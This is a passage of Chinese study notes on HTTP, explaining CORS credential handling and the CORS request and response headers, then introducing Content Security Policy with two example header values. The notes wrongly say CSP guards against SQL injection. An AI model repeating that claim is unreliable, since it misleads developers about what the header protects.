在段报文中，即使请求报文中携带Cookie，但是如果响应报文中没有相应的Access-Control-Allow-Credentials: true信息确认，那么响应的内容也不会返回给请求者。

<font color='red'>对于附带身份凭证的请求，响应报文中的Access-Control-Allow-Origin不能设置为*（任意）。因为请求的首部设置了Cookie信息，如果设置为请求源随意，则会相互矛盾，导致请求失败，如果设置为<http://foo.example>，请求将会成功</font>

### 4.4 HTTP跨域字段总结

#### 4.4.1 HTTP跨域请求字段

下面给的跨域字段在实际应用中无需自己设置，它们在XMLHttpRequest对象发起跨域请求时已经被设置好了。

1. Origin
预检请求或实际请求的源服务器。在所有跨域请求时，它总被发送。
2. Access-Control-Request-Method
用于预检请求，将实际请求所使用的HTTP方法告知服务器
3. Access-Control-Request-Headers
用于预检请求，将实际请求所携带的首部字段告诉服务器

#### 4.4.2 HTTP跨域响应字段

1. Access-Control-Allow-Origin
指定了允许访问该资源的外源URL，对于不需要携带身份凭证的请求，服务器可以指定*来表示允许来自所有域的请求。
<font color='red'>如果服务器指定了具体域名，那么响应首部的Vary也必须包含Origin，这会告诉客户端：服务器对不同的源返回不同的内容</font>
2. Access-Control-Allow-Methods
用于预检响应，指明实际请求所被允许的方法
3. Access-Control-Allow-Headers
用于预检响应，指明实际请求索贝允许的首部字段
4. Access-Control-Max-Age
设置预检响应有效时间
5. Access-Control-Allow-Credentials
用于附带身份凭证的请求。当设置为true的时候，允许浏览器读取response内容。**当用在预检响应时，它表示实际请求是否可以使用Cookie等身份验证**。

## 五、HTTP安全

### 5.1 内容安全策略（CSP）

CSP是用来防止XSS和SQL注入等攻击而提出的。

通过设置Content-Security-Policy来实现CSP管理

例子1：一个网站管理员希望所有资源均来自同一个源（不包括其子域名）

```js
Content-Security-Policy: default-src 'self'
```

例子2：网站管理员允许内容来自信任的域名及其子域名

```js
Content-Security-Policy: default-src 'self' *.trusted.com
```
